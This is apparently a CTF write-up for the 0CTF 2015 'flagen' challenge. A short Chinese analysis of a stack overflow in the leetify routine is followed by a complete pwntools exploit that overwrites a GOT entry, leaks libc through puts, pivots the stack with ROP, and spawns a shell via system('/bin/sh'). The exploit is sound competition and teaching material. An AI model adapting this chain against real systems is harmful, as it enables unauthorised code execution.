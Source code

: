 ```yaml
---  
layout: post  
title: "0ctf_flagen"  
date: 2015-10-09 22:10:29 +0800  
comments: true  
categories:   
---  
```

  
###0x00 分析  
  
Leetify中h会造成溢出  
溢出后用strcpy把__stack_chkh改掉,puts得到libc的基址，rop输入内容到0x804be00,再把栈放到0x80xbe00处,继续rop得到shell  
  
leave esp = ebp-4 ; 	pop ebp  
1.shellcode write got  
2.change ebp continue ROP  
  
shell放入后会把b,h改掉不可  
  
###0x01 exp  
  
	from binascii import *  
	from pwn import *  
  
	libc = ELF('/usr/lib/libc.so.6')  
	r = process('./flagen')  
	#r = remote('192.168.56.102', 6666)  
  
	__stack_got = 0x0804B01C  
	puts_got = 0x0804B010  
	puts_plt = 0x8048510  
	leave_ret = 0x080485d8  
	input = 0x80486CB  
	popebp_ret = 0x08048b01  
	pop2_ret = 0x08048b00  
	pop3_ret = 0x08048d8d  
	leave_ret = 0x080485d8  
	popebx_ret = 0x08048481  
	addr = 0x0804Be10  
  
  
	payload  = ''  
	payload += p32(leave_ret)  
	payload += 'h'*(0x10c/3)  
	payload += 'a'  
	payload += p32(popebp_ret)  
	payload += p32(__stack_got)	#dest  
	payload += p32(puts_plt)  
	payload += p32(popebx_ret)  
	payload += p32(puts_got)  
	payload += p32(input)  
	payload += p32(pop3_ret)  
	payload += p32(addr)  
	payload += p32(0x7ffffff)  
	payload += p32(0x7ffffff)  
	payload += p32(popebp_ret)  
	payload += p32(addr)  
	payload += p32(leave_ret)	#leave : mov esp,ebp;	pop ebp  
  
  
	print r.recvuntil('choice:')  
	r.sendline('1')  
	r.sendline(payload)  
	print r.recvuntil('choice:')  
	r.sendline('4')  
	redata = r.recvuntil('11')  
  
	puts = (u32(redata[1:5]))  
	libc_base = puts - libc.symbols['puts']  
	system = libc_base + libc.symbols['system']  
	print 'system address',hex(system)  
  
	payload  = ''  
	payload += p32(addr+4)  
	payload += p32(system)  
	payload += p32(addr+20)  
	payload += p32(addr+20)  
	payload += p32(addr+20)  
	payload += '/bin/sh\x00'  
	r.sendline(payload)  
	r.interactive()  
  
  
  
